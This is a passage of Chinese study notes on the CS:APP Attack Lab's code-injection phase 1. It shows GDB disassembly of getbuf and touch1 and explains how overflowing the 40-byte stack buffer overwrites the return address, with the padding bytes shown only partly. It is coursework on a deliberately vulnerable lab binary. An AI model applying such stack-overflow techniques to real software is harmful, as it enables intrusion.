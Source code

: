 ## GDB
```shell
gcc -c example.s
```
产生汇编文件对应的目标文件.
当然,使用GDB的调试功能监视内存地址和寄存器也是必不可少的.我已经在Bomblab中掌握了.


# ctarget:Code Injection Attacks
`getbuf()`函数被 `test()`函数调用:
```C
void test(){
	int val;
	val = getbuf();
	printf("No exploit.  Getbuf return 0x%x\n", val);
}
```

## Phase 1
这个问题中,需要我修改返回地址,重定向到`touch1()`函数:
```C
void touch1(){
	vlevel = 1;
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);	
}
```
首先,我反汇编 `getbuf()`函数:
```
(gdb) disass getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.
```
非常简单,首先%rsp减去40字节,此时的%rsp作为buf指针传给 `Gets()`函数,调用 `Gets()`函数前返回地址设置为0x4017b4.
回顾[[机器级编程III(过程Procedure)#栈帧|栈帧]]的知识,如果我把返回地址覆写为`touch1()`函数的地址,就能跳转到`touch1()`函数.
寻找`touch1()`函数:
```shell
(gdb) disass touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    call   0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    call   0x400e40 <exit@plt>
End of assembler dump.
```
填充的字节应为:
```
/* Phase1 */
ff ff ff ff ff ff ff ff /* %rsp~%rsp+7 */
ff ff ff ff ff ff ff ff /* %rsp+8~%rsp+15 */
ff ff ff ff ff ff ff ff /* %rsp+16~%rsp+23 */
ff ff ff ff ff ff ff ff /* %rsp+24~%rsp+31 */
```
